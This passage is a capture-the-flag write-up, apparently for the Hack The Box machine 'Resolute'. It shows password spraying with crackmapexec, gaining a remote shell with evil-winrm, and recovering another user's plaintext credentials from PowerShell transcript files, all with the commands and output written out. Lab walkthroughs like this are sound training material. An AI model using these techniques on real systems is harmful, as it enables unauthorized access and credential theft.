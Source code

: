## Password spraying - Access to user Melanie

The credentials `marko / Welcome123!` don't work with either SMB or WinRM:

```
root@beholder:~# evil-winrm -u marko -p Welcome123! -i 10.10.10.169
Evil-WinRM shell v2.0
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

root@beholder:~# smbmap -u marko -p Welcome123! -H 10.10.10.169
[+] Finding open SMB ports....
[!] Authentication error on 10.10.10.169
```

The password could be used by another account on the system so I'll use crackmapexec to try that password across all the accounts. I'll save my list of users to `users.txt` and use it with CME.

```
root@beholder:~/htb/resolute# crackmapexec smb 10.10.10.169 -u users.txt -p Welcome123!
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
[...]
SMB         10.10.10.169    445    RESOLUTE         [+] MEGABANK\melanie:Welcome123!
```

Bingo, we got the password for Melanie's account.

```
root@beholder:~/htb/resolute# evil-winrm -u melanie -p Welcome123! -i 10.10.10.169

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents> type ..\desktop\user.txt
0c3be45f[...]
```

## Powershell transcripts - Getting access as user ryan

Looking around the filesystem, I found the Powershell transcripts in the `C:\pstranscripts\20191203` directory. They contain a `net use` command that `ryan` used to mount a remote file share. Unfortunately for him, he specified the credentials in the command so I can see them in plaintext in the transcript file: `ryan / Serv3r4Admin4cc123!`

```
*Evil-WinRM* PS C:\pstranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
[...]
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

